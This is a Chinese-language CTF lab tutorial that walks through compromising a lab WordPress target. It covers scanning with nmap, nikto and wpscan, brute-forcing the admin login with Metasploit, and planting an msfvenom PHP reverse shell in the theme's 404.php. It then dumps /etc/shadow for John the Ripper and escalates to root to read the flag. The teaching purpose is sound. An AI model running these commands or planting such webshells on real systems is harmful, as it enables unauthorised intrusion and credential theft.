# CTF夺旗全套视频教程-网络安全 - P14：14.WEB安全暴力破解 🚩

## 概述
在本节课中，我们将学习WEB安全中的暴力破解技术。我们将通过对目标WEB应用程序的用户名和密码进行暴力枚举，最终获得正确的凭据。利用这些凭据登录系统，获取Shell访问权限，并逐步提升权限至root，最终取得目标系统中的flag值。



## 暴力破解的基本思想
暴力破解的核心思想是**穷举法**。穷举法的基本思想是根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解。若全部情况验证后都不符合题目的全部条件，则本题无解。



在WEB安全中，我们利用穷举法尝试所有可能的用户名和密码组合，直到找到正确的凭据。如果无法获取结果，则可以扩大字典范围或调整策略，继续进行破解。

## 实验环境搭建
上一节我们介绍了暴力破解的基本概念，本节中我们来看看具体的实验环境。

*   **攻击机**：Kali Linux
    *   IP地址：`192.168.253.12`
*   **靶机**：Ubuntu Linux
    *   IP地址：`192.168.253.20`

我们的目标是获取靶机上的flag值，并取得其root权限。

## 靶机信息探测
我们首先需要对靶机进行信息收集，了解其开放的服务和版本。

以下是使用Nmap进行服务版本探测的命令：
```bash
nmap -sV 192.168.253.20
```

为了获取更全面的信息（包括操作系统、路由追踪等），我们可以使用Nmap的-A选项进行全扫描：
```bash
nmap -T4 -A -v 192.168.253.20
```
*   `-T4`：设置扫描速度为最快。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-v`：显示详细输出。



扫描结果显示靶机开放了80端口的HTTP服务。接下来，我们需要对HTTP服务进行更深入的敏感信息探测。



## WEB服务敏感信息探测
探测到HTTP服务后，我们使用Nikto工具来扫描WEB目录和潜在漏洞。

以下是使用Nikto进行扫描的命令（80端口可省略）：
```bash
nikto -host http://192.168.253.20
```

分析Nikto的扫描结果，我们发现了一个名为`/secret/`的敏感目录。这很可能是一个突破口。



## 访问并分析目标站点
我们使用浏览器访问靶机的IP地址，并尝试打开`/secret/`目录。访问后发现这是一个隐藏的WordPress站点。



为了能正常访问该站点的登录页面，我们需要在本地`/etc/hosts`文件中将域名解析到靶机IP。
1.  编辑hosts文件：`sudo gedit /etc/hosts`
2.  添加记录：`192.168.253.20  your-target-domain.com`
3.  保存后刷新浏览器即可正常访问。

## WordPress用户名枚举与暴力破解
面对一个WordPress站点，我们可以使用`wpscan`工具来枚举存在的用户名。

以下是使用wpscan枚举用户的命令示例：
```bash
wpscan --url http://your-target-domain.com/secret/ --enumerate u
```

扫描结果显示存在用户`admin`。接下来，我们使用Metasploit框架对`admin`用户的密码进行暴力破解。

1.  启动Metasploit：`msfconsole`
2.  使用WordPress登录扫描模块：
    ```
    use auxiliary/scanner/http/wordpress_login_enum
    ```
3.  设置模块参数：
    ```
    set RHOSTS 192.168.253.20
    set USERNAME admin
    set PASS_FILE /usr/share/wordlists/dirb/common.txt
    set TARGETURI /secret/
    ```
4.  运行模块：`run`

很快，模块破解出密码也为`admin`。我们使用`admin:admin`成功登录WordPress后台。

## 上传WebShell并获取反向Shell
成功进入后台后，我们需要上传一个WebShell来获取服务器的交互式Shell。

首先，使用Msfvenom生成一个PHP反向Shell：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
将生成的PHP代码复制。

在WordPress后台，找到主题编辑器，编辑`404.php`模板文件，将生成的PHP代码粘贴进去并保存。





接着，在Metasploit中设置监听：
1.  使用处理模块：`use exploit/multi/handler`
2.  设置Payload：`set PAYLOAD php/meterpreter/reverse_tcp`
3.  设置监听地址和端口：`set LHOST 192.168.253.12`， `set LPORT 4444`
4.  开始监听：`run`









最后，在浏览器中访问我们上传的WebShell文件（例如：`http://192.168.253.20/secret/wp-content/themes/twentyseventeen/404.php`）。此时，Metasploit会接收到一个反向连接，我们成功获得了Meterpreter Shell。

## 权限提升与获取Flag
我们获得的Shell权限较低（www-data用户）。需要将其提升至root权限。





首先，从靶机下载密码文件：
```
download /etc/passwd
download /etc/shadow
```





然后，使用`unshadow`工具合并文件，供John the Ripper破解：
```bash
unshadow passwd shadow > crack.db
john crack.db
```
破解后，我们得到了一个用户`marinspike`及其密码。





在Meterpreter会话中，切换到交互式Shell，并尝试提权：
```
shell
python -c 'import pty; pty.spawn("/bin/bash")'
su - marinspike
# 输入破解得到的密码
sudo bash
# 再次输入密码
```
成功提权至root。





最后，寻找并读取flag文件：
```
cd /root
ls
cat flag.txt
```



## 总结
本节课我们一起学习了WEB安全中暴力破解的完整流程。



